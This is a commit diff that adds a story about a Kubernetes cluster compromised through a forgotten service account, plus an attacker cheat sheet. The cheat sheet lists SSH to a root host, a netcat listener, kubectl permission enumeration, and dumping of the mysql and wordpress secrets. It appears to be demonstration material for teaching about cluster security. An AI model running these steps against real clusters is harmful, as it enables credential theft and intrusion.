

fix: progress.

Changed region(s): [[0.5625, 0.4375, 0.8125, 0.5625], [0.1562, 0.5312, 0.4062, 0.6562]]

diff --git a/Story.md b/Story.md
@@ -1,0 +1,12 @@
+# The Tale of DevOps Joe & Developer Steve
+Meet Developer Steve. Steve works at SmartWash Ltd., a company that sells washing machines. Steve is always buried under a mountain of tasks because the development team is seriously understaffed. One Friday, his boss asks him to set up a file-sharing platform to send a 500MB user manual to a customer. His boss assures him it’ll be easy with some Docker Hub images.
+
+Steve, already frustrated and dreaming of leaving early, decides to tackle the task. But he needs help from his buddy, DevOps Joe, to create a service account in their super secure cluster.
+
+Now, let’s talk about Joe. Joe is the DevOps guy at SmartWash and is just as overwhelmed as Steve. Everyone needs something from Joe, and hiring more people isn’t happening fast enough. But Joe trusts Steve—Steve is sharp, reliable, and they’ve worked together for ages.
+
+So, when Steve asks Joe to create a service account to quickly spawn a pod and create a secret, Joe thinks, "No problem!" He sets it up, names it "developer-steve," and plans to delete it in a few days. After all, what could possibly go wrong?
+
+Steve gets the platform running by the afternoon, tells his boss it's done, and decides to call it a day, even though there are a few loose ends.
+
+The following week, everyone at SmartWash gets caught up in the latest AI buzz, and both Joe and Steve forget to clean up their test environments. Fast forward six months, and—surprise!—the entire system is compromised.

diff --git a/Cheat-Sheet.md b/Cheat-Sheet.md
@@ -1,0 +1,20 @@
+
+# Ok we are on the host
+```bash
+ssh root@128.140.44.16
+nc -nvl 9001
+
+
+curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
+chmod +x kubectl
+mv kubectl /usr/local/bin/.
+
+kubectl auth can-i --list
+
+kubectl get pods
+
+kubectl describe pod mysql-0
+
+kubectl get secret mysql -o jsonpath='{.data}'
+kubectl get secret wordpress -o jsonpath='{.data}'
+```
